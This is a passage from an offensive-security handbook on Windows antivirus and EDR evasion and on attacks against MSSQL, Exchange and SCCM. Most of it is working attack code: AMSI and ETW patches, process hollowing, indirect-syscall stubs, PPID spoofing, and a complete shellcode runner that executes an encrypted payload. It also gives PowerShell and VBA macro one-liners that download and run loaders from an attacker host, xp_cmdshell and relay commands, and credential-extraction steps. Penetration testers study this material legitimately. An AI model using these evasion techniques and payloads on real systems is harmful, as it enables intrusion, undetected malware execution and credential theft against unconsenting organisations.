13.9.1 Constrained Language Mode
CLM restricts PowerShell to a subset of the language, no .NET reflection, no COM objects, limited type accelerators. Check status:
$ExecutionContext.SessionState.LanguageModeOutput ConstrainedLanguage means CLM is active. Bypass via InstallUtil.exe, which runs unrestricted:
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\path\to\malicious.exe13.9.2 Detecting AMSI
Get-Command -Module amsiutils13.9.3 Disabling AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)13.9a Process Hollowing
Process hollowing spawns a benign process suspended, unmaps its executable section, writes new code into the resulting hole, fixes the entry point in the PEB, and resumes the thread. To a sensor, the process appears to be the benign one it launched; underneath, it is running the attacker's payload. Runs entirely from a single allocation and does not need to inject into an already-running process.
// Sketch of the flow
CreateProcess("C:\\Windows\\System32\\svchost.exe", ..., CREATE_SUSPENDED, ...);
GetThreadContext(pi.hThread, &ctx); // Read the entry point
ReadProcessMemory(pi.hProcess, ctx.Rdx + 0x10, &imageBase, sizeof(imageBase), NULL);
NtUnmapViewOfSection(pi.hProcess, imageBase); // Unmap the original PE
VirtualAllocEx(pi.hProcess, imageBase, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, imageBase, payload, size, NULL);
ctx.Rcx = (DWORD64)imageBase + entryPointRVA; // Fix RCX (new entry point)
SetThreadContext(pi.hThread, &ctx);
ResumeThread(pi.hThread);Modern EDRs flag NtUnmapViewOfSection combined with WriteProcessMemory on a fresh child, so hollowing on its own is less stealthy than it used to be. It still shows up as a component of chained loaders where the writes route through indirect syscalls or a helper driver.
13.10 Direct and Indirect Syscalls
EDR products commonly hook ntdll.dll functions in user mode by rewriting the first few bytes of each Nt* stub with a jump into their inspection DLL. Anything that calls through the ntdll export therefore passes through the sensor first. Direct and indirect syscalls skip the hooked stub entirely by writing the syscall instruction inline.
// Direct syscall stub: MASM x64
// The caller passes the same arguments the native function expects.
// EAX must hold the syscall number (SSN), which varies by Windows build.
NtAllocateVirtualMemory PROC
mov r10, rcx ; syscall convention: r10 = first arg
mov eax, 18h ; SSN for NtAllocateVirtualMemory (version-dependent)
syscall
ret
NtAllocateVirtualMemory ENDPIndirect syscalls raise the bar further by resolving the address of a real syscall instruction inside ntdll at runtime and jumping to it. The return address on the stack ends up pointing into ntdll, so a stack-walking EDR sees exactly what it would for a legitimate call:
// Indirect syscall stub
NtAllocateVirtualMemory PROC
mov r10, rcx
mov eax, 18h ; SSN
jmp QWORD PTR [ntAllocSyscallAddr] ; jump to ntdll's own syscall;ret gadget
NtAllocateVirtualMemory ENDPTwo runtime problems: SSNs change between Windows builds, and the target ntdll may already be hooked. Hell's Gate resolves SSNs by walking ntdll's Export Address Table and reading them from the function prologue (the mov eax, imm32 immediate). Halo's Gate is the fallback when the prologue is hooked: pick a neighbor that is not hooked and add or subtract the offset, since SSNs are sequential.
13.11 ETW Patching
Event Tracing for Windows (ETW) is what feeds a lot of the runtime telemetry EDRs consume, including managed .NET events like assembly loads and PowerShell scriptblock execution. Two lightweight patches disable ETW inside the current process.
// Patch EtwEventWrite to return immediately: silences .NET ETW providers
FARPROC hook = GetProcAddress(GetModuleHandle("ntdll.dll"), "EtwEventWrite");
DWORD old;
VirtualProtect(hook, 1, PAGE_EXECUTE_READWRITE, &old);
*(BYTE*)hook = 0xC3; // ret
VirtualProtect(hook, 1, old, &old);PowerShell equivalent for in-memory scriptblock logging:
$Ref = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static')
$EtwProvider = $Ref.GetValue($null)
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($EtwProvider, 0)13.12 Sleep Obfuscation
Beacons spend most of their runtime sleeping, and sleeping memory is exactly what memory scanners inspect. Sleep obfuscation encrypts the beacon's code and heap during each sleep, then restores it before returning. The pattern is: register a timer callback, encrypt sections, sleep, decrypt, resume.
| Implementation | Scheduling primitive | Notes |
|---|---|---|
| Ekko | NtCreateTimer2 / NtSetTimer2 | ROP chain flips memory to RW, XOR-encrypts, flips back to RX before the beacon resumes. |
| FOLIAGE | User-mode APC queue | Cobalt Strike variant. APCs instead of timers make the pattern harder to spot in scheduled work. |
| Cronos / DeathSleep | Alternative timer and APC primitives | Same encrypt-sleep-decrypt loop with different queuing calls. |
// Sketch of the Ekko pattern
NtCreateTimer2(&hTimer, ...);
NtSetTimer2(hTimer, delay, RopChain);
// RopChain: VirtualProtect(RW) -> SystemFunction032 (RC4 encrypt) -> WaitForSingleObject
// -> SystemFunction032 (decrypt) -> VirtualProtect(RX) -> return13.13 API Hashing
Beacon strings like VirtualAlloc or CreateRemoteThread are static signatures for AV. API hashing replaces the string with a runtime hash of the function name and resolves it against the DLL's Export Address Table.
// Compile-time hash: DJB2 variant
constexpr DWORD hash_djb2(const char* str) {
DWORD h = 5381;
while (*str) h = ((h << 5) + h) + *str++;
return h;
}
// Resolve by walking the EAT of a loaded DLL and matching the precomputed hash
FARPROC resolve(HMODULE dll, DWORD target_hash);
// Call site: no VirtualAlloc string in the binary
using pVirtualAlloc = LPVOID(WINAPI*)(LPVOID, SIZE_T, DWORD, DWORD);
auto VA = (pVirtualAlloc)resolve(GetModuleHandle("kernel32.dll"), 0x91AFCA54);
VA(NULL, 0x1000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);13.14 Parent PID and Command-Line Spoofing
Two Windows process attributes drive a lot of behavioral detections: the parent process ID and the command line. Both can be spoofed at process-creation time using the extended STARTUPINFOEX structure and the PROC_THREAD_ATTRIBUTE_PARENT_PROCESS attribute. The effect on the sensor is that a payload launched from a macro appears to have explorer.exe as its parent, and the command line recorded in ETW is the decoy the attacker supplied instead of the real one.
STARTUPINFOEX si = {0};
si.StartupInfo.cb = sizeof(STARTUPINFOEX);
// Parent PID spoofing
SIZE_T size = 0;
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
HANDLE parent = OpenProcess(PROCESS_CREATE_PROCESS, FALSE, <explorer-pid>);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parent, sizeof(HANDLE), NULL, NULL);
// Command-line spoofing: supply the decoy at creation, then overwrite the real one after CREATE_SUSPENDED resumes
CreateProcess(NULL, "notepad.exe C:\\Windows\\System32\\drivers\\etc\\hosts",
NULL, NULL, FALSE,
EXTENDED_STARTUPINFO_PRESENT | CREATE_SUSPENDED,
NULL, NULL, &si.StartupInfo, &pi);
// PEB rewrite of ProcessParameters->CommandLine happens here, then ResumeThread(pi.hThread)Methodology
- Fingerprint the AV product in play, bypass techniques differ by vendor:
Get-Service | Where-Object {$_.DisplayName -like "*Defender*" -or $_.DisplayName -like "*CrowdStrike*" -or $_.DisplayName -like "*SentinelOne*"} Get-MpComputerStatus | Select-Object RealTimeProtectionEnabled, AntivirusEnabled - Split any payload with
Find-AVSignatureto isolate what's being detected:Find-AVSignature -StartByte 0 -EndByte max -Interval 100 -Path mal.exe -OutPath mal_1 -Verbose -Force - Zero out flagged bytes and re-test:
$bytes = [System.IO.File]::ReadAllBytes("mal.exe") $bytes[1111] = 0 [System.IO.File]::WriteAllBytes("mal_mod.exe", $bytes) - Prefer in-memory PowerShell loaders, reduces on-disk artifacts:
IEX (New-Object Net.WebClient).DownloadString('http://<attacker>/loader.ps1') - Disable or bypass AMSI early in a PowerShell session:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true) - If CLM is enforced, use InstallUtil, MSBuild, or an unmanaged assembly execution primitive:
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\path\to\malicious.exe - For macros, VBA-stomp and use WMI to break parent-child chains:
Sub MyMacro strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://<attacker>/run.txt'))" GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid End Sub - Test every payload in a Defender-enabled sandbox before deploying to a real engagement.
13.15.1 Combined Shellcode Runner
A production runner chains the individual primitives together. The sketch below pulls compile-time API hashing, ETW patching, Halo's Gate SSN resolution, indirect syscalls, a sandbox sleep gate, an XOR-encrypted payload, and parent-PID plus command-line spoofing into a single program. Each block is labeled with what it does so the runner can be reshuffled or trimmed per engagement.
#include <windows.h>
#include <winternl.h>
/* --- Compile-time DJB2 hash of an API name --------------- */
constexpr DWORD H(const char* s) {
DWORD h = 5381;
while (*s) h = ((h << 5) + h) + (BYTE)*s++;
return h;
}
#define H_VirtualAlloc H("VirtualAlloc")
#define H_VirtualProtect H("VirtualProtect")
#define H_WaitForSingleObject H("WaitForSingleObject")
#define H_CreateEventA H("CreateEventA")
#define H_EtwEventWrite H("EtwEventWrite")
#define H_NtProtectVirtualMemory H("NtProtectVirtualMemory")
#define H_NtAllocateVirtualMemory H("NtAllocateVirtualMemory")
/* --- EAT walker: resolve a function pointer by hash ----- */
FARPROC resolve(HMODULE mod, DWORD target) {
BYTE* base = (BYTE*)mod;
auto* dos = (IMAGE_DOS_HEADER*)base;
auto* nt = (IMAGE_NT_HEADERS*)(base + dos->e_lfanew);
auto* exp = (IMAGE_EXPORT_DIRECTORY*)
(base + nt->OptionalHeader.DataDirectory[0].VirtualAddress);
DWORD* names = (DWORD*)(base + exp->AddressOfNames);
WORD* ords = (WORD*) (base + exp->AddressOfNameOrdinals);
DWORD* funcs = (DWORD*)(base + exp->AddressOfFunctions);
for (DWORD i = 0; i < exp->NumberOfNames; i++) {
const char* n = (const char*)(base + names[i]);
if (H(n) == target) return (FARPROC)(base + funcs[ords[i]]);
}
return NULL;
}
/* --- ETW patch: first byte of EtwEventWrite becomes RET -- */
void patch_etw(void) {
HMODULE ntdll = GetModuleHandleA("ntdll.dll");
BYTE* p = (BYTE*)resolve(ntdll, H_EtwEventWrite);
DWORD old;
VirtualProtect(p, 1, PAGE_EXECUTE_READWRITE, &old);
*p = 0xC3; /* ret */
VirtualProtect(p, 1, old, &old);
}
/* --- Halo's Gate: read SSN or infer from neighbor ------ */
DWORD ssn(HMODULE ntdll, DWORD target_hash) {
BYTE* fn = (BYTE*)resolve(ntdll, target_hash);
/* clean prologue is: 4C 8B D1 B8 xx xx xx xx (mov r10,rcx ; mov eax,ssn) */
if (fn[0]==0x4C && fn[1]==0x8B && fn[2]==0xD1 && fn[3]==0xB8)
return *(DWORD*)(fn + 4);
/* hooked: walk neighbors 0x20 bytes apart until a clean prologue is found */
for (int i = 1; i < 500; i++) {
BYTE* up = fn + (i * 0x20);
BYTE* down = fn - (i * 0x20);
if (up[0]==0x4C && up[1]==0x8B && up[2]==0xD1 && up[3]==0xB8)
return *(DWORD*)(up + 4) - i; /* SSNs are sequential */
if (down[0]==0x4C && down[1]==0x8B && down[2]==0xD1 && down[3]==0xB8)
return *(DWORD*)(down + 4) + i;
}
return 0;
}
/* --- Indirect syscall stub (assembled separately) -------
* NtIndirect PROC
* mov r10, rcx
* mov eax, [rip+g_ssn]
* jmp qword ptr [rip+g_gadget]
* NtIndirect ENDP
* The linker exports g_ssn and g_gadget, which the runner
* writes before each call so a single stub serves every syscall. */
extern "C" NTSTATUS NtIndirect(...);
extern "C" DWORD g_ssn;
extern "C" ULONG_PTR g_gadget;
ULONG_PTR find_syscall_gadget(HMODULE ntdll) {
/* Any Nt* stub in ntdll contains a `syscall; ret` (0F 05 C3) at offset 0x12 */
BYTE* p = (BYTE*)resolve(ntdll, H_NtAllocateVirtualMemory);
return (ULONG_PTR)(p + 0x12);
}
/* --- Sleep gate: burn a sandbox timeout window ---------- */
void sleep_gate(DWORD ms) {
HANDLE ev = CreateEventA(NULL, TRUE, FALSE, NULL);
WaitForSingleObject(ev, ms);
CloseHandle(ev);
}
/* --- XOR decrypt the embedded payload ------------------- */
void xor_dec(BYTE* buf, SIZE_T n, const BYTE* k, SIZE_T kn) {
for (SIZE_T i = 0; i < n; i++) buf[i] ^= k[i % kn];
}
/* --- Parent PID + command-line spoof -------------------- */
BOOL spoof_spawn(LPCWSTR real_bin, LPWSTR fake_cmdline, DWORD ppid) {
STARTUPINFOEXW si = {0};
si.StartupInfo.cb = sizeof(si);
SIZE_T attr_size = 0;
InitializeProcThreadAttributeList(NULL, 1, 0, &attr_size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)
HeapAlloc(GetProcessHeap(), 0, attr_size);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attr_size);
HANDLE parent = OpenProcess(PROCESS_CREATE_PROCESS, FALSE, ppid);
UpdateProcThreadAttribute(si.lpAttributeList, 0,
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parent,
sizeof(parent), NULL, NULL);
PROCESS_INFORMATION pi = {0};
BOOL ok = CreateProcessW(real_bin, fake_cmdline, NULL, NULL, FALSE,
EXTENDED_STARTUPINFO_PRESENT | CREATE_SUSPENDED,
NULL, NULL, &si.StartupInfo, &pi);
/* Rewrite PEB->ProcessParameters->CommandLine here to the real argv,
* then ResumeThread(pi.hThread). Left out for brevity. */
if (ok) ResumeThread(pi.hThread);
return ok;
}
/* --- Encrypted payload + key baked in at build time ----- */
static BYTE g_payload[] = { /* <encrypted shellcode> */ };
static BYTE g_key[] = { /* <XOR key> */ };
/* --- Runner --------------------------------------------- */
int wmain(void) {
patch_etw(); /* silence ETW-TI in-process */
sleep_gate(90 * 1000); /* 90-second sandbox burn */
xor_dec(g_payload, sizeof(g_payload), g_key, sizeof(g_key));
HMODULE ntdll = GetModuleHandleA("ntdll.dll");
g_gadget = find_syscall_gadget(ntdll);
/* Allocate RW via indirect syscall */
PVOID mem = NULL;
SIZE_T sz = sizeof(g_payload);
g_ssn = ssn(ntdll, H_NtAllocateVirtualMemory);
NtIndirect((HANDLE)-1, &mem, 0, &sz,
MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memcpy(mem, g_payload, sizeof(g_payload));
/* Flip to RX via indirect syscall */
ULONG old = 0;
g_ssn = ssn(ntdll, H_NtProtectVirtualMemory);
NtIndirect((HANDLE)-1, &mem, &sz, PAGE_EXECUTE_READ, &old);
/* Optional: spoof-spawn a host process and hollow it, or execute here */
((void(*)())mem)();
return 0;
}Two things the sketch leaves as an exercise. Any variant that hosts .NET assemblies needs the AMSI patch applied before ExecuteAssembly loads the CLR. The full PEB command-line rewrite needs a ReadProcessMemory / WriteProcessMemory pair against the child's PEB after CreateProcessW; the fake_cmdline argument seeds the initial value that the rewrite then overwrites once the process is up.
14. MSSQL, Exchange, and SCCM Attacks
Enterprise infrastructure sitting alongside Active Directory quietly expands the attack surface well past the DC. MSSQL, Exchange, and SCCM each ship with privileged service accounts, permissive default configurations, and a set of legitimate administrative primitives that map directly onto lateral movement and privilege escalation when they are abused. These platforms are also often owned by different operational teams than AD itself, which is one of the reasons the same misconfigurations tend to persist for years after they are documented publicly.

14.1 MSSQL Attacks
MSSQL instances often run as domain service accounts with excessive privileges. Common attack primitives:
| Command | Description |
|---|---|
| xp_cmdshell | enabled means arbitrary OS command execution as the service account. |
| Impersonation | EXECUTE AS LOGIN lets a login run as another login if IMPERSONATE is granted. |
| Linked servers | cross-instance queries, often cross-forest, that let one SQL server execute queries on another under stored credentials. |
| UNC path injection | coerce authentication by triggering an outbound SMB connection. |
14.1.0 Client Tooling
Three clients cover most of what an operator needs against MSSQL. SSMS is the Microsoft GUI; sqlcmd is the built-in command line; Impacket's mssqlclient.py is the attacker-friendly CLI that runs from Linux.
# SQL Server auth
impacket-mssqlclient <user>:'<password>'@<target-ip>
# Windows / domain auth
impacket-mssqlclient <domain.local>/<user>:'<password>'@<target-ip> -windows-auth
# Kerberos with a ccache
KRB5CCNAME=<user>.ccache impacket-mssqlclient -k -no-pass <domain.local>/<user>@<target-fqdn>
# Pass-the-Hash
impacket-mssqlclient -hashes :<ntlm-hash> <domain.local>/<user>@<target-ip> -windows-authOnce connected, the prompt looks like SQL (<user> <current-db>>. All standard T-SQL runs directly, and enable_xp_cmdshell / xp_cmdshell commands are shortcuts the client wraps around the underlying sp_configure calls.
14.1.1 MSSQL Enumeration
PowerUpSQL is the canonical toolkit:
Import-Module .\PowerupSQL.psd1
Get-SQLInstanceDomain
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded
Get-SQLServerInfo -Instance <instance>
Get-SQLQuery -Instance <instance> -Query "SELECT @@version"14.1.2 xp_cmdshell Execution
Enable and execute in one flow:
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';14.1.3 SQL Impersonation
Enumerate impersonation grants:
SELECT
'Current User' = SUSER_SNAME(),
'Login that can be impersonated' = b.name,
'Impersonation Permission' = a.permission_name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';Impersonate and confirm identity change:
EXECUTE AS LOGIN = 'sa';
SELECT SUSER_SNAME();14.1.4 UNC Path Injection
Force MSSQL to authenticate to a UNC path (SMB), letting Responder capture the NTLMv2 hash:
EXEC master..xp_dirtree '\\<attacker-fqdn>\share\';14.1.5 EXECUTE AS Impersonation Chain
The IMPERSONATE grant is often layered: user A can impersonate B, B can impersonate C, C is sa. Walking the chain end-to-end reaches sysadmin without ever holding those credentials directly. PowerUpSQL enumerates the whole chain in one call:
# Every login the current user can impersonate, plus what each of those can impersonate in turn
Get-SQLServerLinkCrawl -Instance <instance> -Verbose
Invoke-SQLAudit -Instance <instance> -VerboseManual walk when tooling is not available:
-- Which logins can I impersonate?
SELECT b.name AS 'impersonable', a.permission_name
FROM sys.server_permissions a
JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
-- Chain: impersonate one, check what THAT identity can impersonate
EXECUTE AS LOGIN = '<intermediate-user>';
SELECT SUSER_SNAME(); -- confirm switch
-- Nested impersonation
EXECUTE AS LOGIN = 'sa';
SELECT SUSER_SNAME();
EXEC xp_cmdshell 'whoami';
-- Unwind
REVERT;
REVERT;14.1.6 OLE Automation Procedures
When xp_cmdshell is disabled and cannot be re-enabled, OLE Automation offers another route to command execution. The Ole Automation Procedures option exposes sp_OACreate and family, which can spawn WScript.Shell or run out-of-process COM objects.
-- Enable the feature (needs sysadmin or sufficient reconfigure rights)
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
-- Instantiate WScript.Shell and run a command
DECLARE @shell INT;
EXEC sp_OACreate 'WScript.Shell', @shell OUT;
EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c whoami > C:\Windows\Temp\out.txt', 0, TRUE;
EXEC sp_OADestroy @shell;CLR assembly loading is another route for the same goal when both xp_cmdshell and OLE Automation are locked down:
-- Enable CLR
EXEC sp_configure 'clr enabled', 1; RECONFIGURE;
EXEC sp_configure 'clr strict security', 0; RECONFIGURE;
-- Then load a signed .NET assembly (PowerUpSQL wraps this whole flow)
CREATE ASSEMBLY [<assembly-name>] FROM 0x<hex-blob> WITH PERMISSION_SET = UNSAFE;Methodology
- Enumerate reachable MSSQL SPNs and hosts (
Get-SQLInstanceDomain,PowerUpSQL,impacket-mssqlclient):Get-SQLInstanceDomain Get-SQLInstanceDomain | Get-SQLConnectionTest setspn -T <domain> -Q MSSQLSvc/* - Test
xp_cmdshellavailability and toggle it viasp_configureif it's disabled but you hold sysadmin:EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami'; - Enumerate
IMPERSONATEgrants and walk theEXECUTE ASchain up tosa:SELECT DISTINCT b.name AS grantee, a.name AS impersonated FROM sys.server_permissions p JOIN sys.server_principals a ON p.grantor_principal_id = a.principal_id JOIN sys.server_principals b ON p.grantee_principal_id = b.principal_id WHERE p.permission_name = 'IMPERSONATE'; EXECUTE AS LOGIN = 'sa'; SELECT SUSER_SNAME(); - Coerce SQL out to a UNC path (
xp_dirtree) when direct code execution is not reachable, then capture or relay the service-account hash:EXEC master..xp_dirtree '\\<attacker-ip>\share\'; - If OLE Automation is enabled, use
sp_OACreate-based execution as a fallback whenxp_cmdshellis blocked:EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; DECLARE @sh INT; EXEC sp_OACreate 'WScript.Shell', @sh OUTPUT; EXEC sp_OAMethod @sh, 'Run', NULL, 'cmd /c <payload>';
14.2 Exchange Attacks
Older Exchange installers dropped the Exchange Windows Permissions group into the domain root with WriteDacl over the domain object. Any principal that owned an Exchange server therefore owned the domain, which is what PrivExchange turns into a one-shot escalation. Newer installers scope those rights down, but a lot of environments were never re-permissioned after upgrade.
14.2.1 Exchange Enumeration
Discover the Exchange server by SPN:
setspn -T <domain> -Q */* | Select-String "exchange"Or via nmap:
nmap -p 25,443,110,143,993,995 <target>14.2.2 PrivExchange (CVE-2019-0724)
Exchange servers have WriteDacl on the Domain object by default. Coerce Exchange to authenticate to an attacker-controlled host, then relay to LDAP and grant DCSync rights to a low-privileged user:
python3 ntlmrelayx.py -t ldap://<dc> --escalate-user <low_priv_user>
python3 privexchange.py -ah <attacker> <exchange_server> -u <user> -p <pass> -d <domain>Once escalated, DCSync:
secretsdump.py <domain>/<low_priv_user>:<pass>@<dc> -just-dc-ntlm14.2.3 ProxyLogon (CVE-2021-26855)
Server-Side Request Forgery in Exchange 2013–2019 allowing pre-auth remote code execution. Chain: SSRF as SYSTEM → arbitrary file write via CVE-2021-27065 → web shell drop. Patched in March 2021 but frequently unpatched in labs.
14.2.4 ProxyShell (CVE-2021-34473 / 34523 / 31207)
ProxyShell is a chain of three CVEs against Exchange's Autodiscover / PowerShell endpoint. Combined, they give pre-auth remote code execution as SYSTEM on the Exchange server, plus mailbox access as any user. The endpoint is reachable through the Autodiscover URL, which is normally internet-facing.
# Detect vulnerability
curl -k 'https://<exchange-fqdn>/autodiscover/autodiscover.json?a=x@x.local'
# End-to-end chain (multiple public PoCs exist: proxyshell.py is one)
python3 proxyshell.py -u '<exchange-fqdn>' -e '<target-mailbox>@<domain.local>'
# Successful run drops a mail-based web shell reachable at /aspnet_client/<name>.aspxThe chain has been patched since April 2021, but Exchange servers frequently lag on patching, so it remains worth checking on any Exchange-hosting environment.
Methodology
- Locate the Exchange server by SPN (
setspn -T <domain> -Q */* | Select-String exchange) or by nmap on Exchange ports:setspn -T <domain> -Q */* | Select-String "exchange" nmap -p 25,443,110,143,993,995 <target> - Check for PrivExchange: coerce Exchange to authenticate to
ntlmrelayx --escalate-userpointed at LDAP:python3 ntlmrelayx.py -t ldap://<dc> --escalate-user <low-priv-user> python3 privexchange.py -ah <attacker> <exchange-server> -u user -p pass -d domain.local - Test the build for ProxyLogon and ProxyShell exposure against
/autodiscover/autodiscover.json?a=x@x.local:curl -sk 'https://<exchange-fqdn>/autodiscover/autodiscover.json?a=x@x.local' python3 proxyshell.py -u '<exchange-fqdn>' -e '<target-mailbox>@domain.local' - On escalation, DCSync with
secretsdump.py -just-dc-ntlmusing the granted rights:secretsdump.py domain.local/<low-priv-user>:pass@<dc> -just-dc-ntlm
14.3 SCCM Attacks
System Center Configuration Manager (also known as MECM/Endpoint Configuration Manager) deploys software and configuration to every joined host, a compromise of SCCM typically leads to compromise of every managed endpoint.
14.3.1 SCCM Enumeration
Identify SCCM presence:
Get-ADObject -Filter {ObjectClass -eq 'mSSMSSite'} -SearchBase 'CN=System Management,CN=System,DC=domain,DC=local'Enumerate the site database using SharpSCCM:
SharpSCCM.exe get devices
SharpSCCM.exe get primary-users
SharpSCCM.exe get site-info14.3.2 SCCM Credential Harvesting
Task sequences and application deployments often embed credentials. Pull the Network Access Account (NAA), historically stored in plaintext-recoverable form and used to access SCCM shares:
SharpSCCM.exe local secrets --method wmi14.3.3 SCCM NTLM Relay
The SCCM MP (Management Point) can be relayed to. Combined with automatic client push installation, this gives code execution as SYSTEM on any target host:
SharpSCCM.exe invoke client-push -t <attacker_ip>
ntlmrelayx.py -t smb://<target> -smb2support -c '<payload>'14.3.4 Application Deployment as Attack Vector
With SCCM Full Administrator (or Application Administrator) rights, deploy an application to any device or collection, the SCCM client executes it as SYSTEM. SharpSCCM automates the deployment:
SharpSCCM.exe exec -d <target-device> -p <payload-path>14.3.5 PXE Boot Media Credential Extraction
SCCM's PXE / OSD (Operating System Deployment) feature boots endpoints from a WIM media image that contains a task sequence with embedded credentials for the Network Access Account. A rogue PXE request from the attacker network downloads that media, extracts the credentials, and lets the attacker act as the NAA against SCCM shares and often against domain resources.
# PXE boot request from the attacker box: pulls the OSD boot media
python3 PXEThief.py -i <attacker-nic> -p <pxe-server-ip>
# The extracted policy blob contains the encrypted NAA credential
python3 PXEThief.py decrypt -f <policy-blob>
# SharpSCCM includes a similar primitive for authenticated extraction
SharpSCCM.exe get naaThe NAA credential is typically a domain account whose password rarely rotates, which turns this into both an initial-access primitive against the SCCM environment and a long-lived credential for lateral movement.
Methodology
- Locate SCCM primary sites and management points via the
System ManagementAD container andSharpSCCM get site-info:Get-ADObject -Filter {ObjectClass -eq 'mSSMSSite'} -SearchBase 'CN=System Management,CN=System,DC=domain,DC=local' SharpSCCM.exe get site-info - Extract NAA credentials on any client host with
SharpSCCM local secrets --method wmi:SharpSCCM.exe local secrets --method wmi - Trigger client-push authentication and relay to SMB or LDAP with
ntlmrelayx:SharpSCCM.exe invoke client-push -t <attacker-ip> ntlmrelayx.py -t smb://<target> -smb2support -c '<payload>' - With Application Administrator or above, deploy a payload to a target device or collection using
SharpSCCM exec:SharpSCCM.exe exec -d <target-device> -p <payload-path> - On networks with PXE enabled, pull OSD media with PXEThief and decrypt the embedded NAA blob:
python3 PXEThief.py -i <attacker-nic> -p <pxe-server-ip> python3 PXEThief.py decrypt -f <policy-blob>